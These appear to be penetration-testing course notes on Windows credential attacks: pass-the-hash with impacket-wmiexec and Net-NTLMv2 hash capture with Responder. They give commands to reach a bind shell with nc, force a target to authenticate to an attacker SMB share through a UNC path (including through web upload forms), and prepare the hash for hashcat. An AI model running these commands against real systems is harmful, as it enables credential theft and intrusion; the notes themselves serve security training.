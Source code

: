 Command:
`impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212`
- Same arguments as impacket-psexec

## Cracking Net-NTLMv2

In situations where we only have unprivileged user privileges, we can abuse the Net-NTLMv2 network authentication protocol.

Net-NTLMv2 (formally NTLMv2): protocol for managing authentication process for Windows clients and servers over a network

Net-NTLMv2 vs Kerberos:
- Net-NTLMv2 is less secure than Kerberos
- Majority of Windows environments still support Net-NTLMv2 for compatibility with older devices

### Example: gain access to an SMB share on a Windows 2022 server from a Windows 11 client via Net-NTLMv2

How Net-NTLMv2 works:
1. We send the server a request, outlining the connection details to access the SMB share
2. Server sends us a challenge in which we encrypt data for our response with our NTLM hash to prove our identity
3. Server checks our challenge response and either grants or denies access

Exploit:
1. We need our target to start an authentication process using Net-NTLMv2 against a system that we control
2. Our system handles the authentication process and shows us the Net-NTLMv2 hash the target used to authenticate

Tool: [Responder](https://github.com/lgandx/Responder)
- Includes build-in SMB server that handles the authentication process for us and prints all captured Net-NTLMv2 hashes
- Also includes other protocol servers (including HTTP and FTP)
- Also includes Link-Local Multicast Name Resolution (LLMNR), NetBIOS Name Service (NBT-NS), and Multicast DNS (MDNS) poisoning capabilities

How to get our target remote system to authenticate with our SMB server:
- If we have obtained code execution on the target, we can command it to connect with our SMB server:
  (PowerShell) `ls \\[ip of our server]\share`
- If we do not have code execution on the target, we can use other vectors:
	- E.g. Via file upload form in a web application on a Windows server, enter a non-existing file with a UNC path like `\\[ip of our server]\share\nonexistent.txt`. If the web application supports uploads via SMB, the Windows server will authenticate to our SMB server.

Steps: (Assume we already have bind shell on target)
1. Connect to bind shell: 
   `nc 192.168.50.211 4444`
2. On bind shell, check which user is running the bind shell and if the user is in the local Administrators group:
   `whoami`
   `net user paul` (check Local Group Memberships)
   User is not in the local Administrators group, so we cannot use the methods of cracking NTLM and passing NTLM
3. On Kali, run `ip -a` to list all interfaces
4. Run Responder on Kali with sudo, using `-I` to set the listening interface:
   `sudo responder -I tap0`
5. On bind shell, request access to a non-existent SMB share on our Responder SMB server:
   `dir \\192.168.119.2\test` (test is an arbitrary directory name)
6. Check Responder for event log (should contain Client, Username, Hash)
7. Save the obtained hash
8. Retrieve the correct Hashcat mode to crack the hash:
   `hashcat --help | grep -i "ntlm"`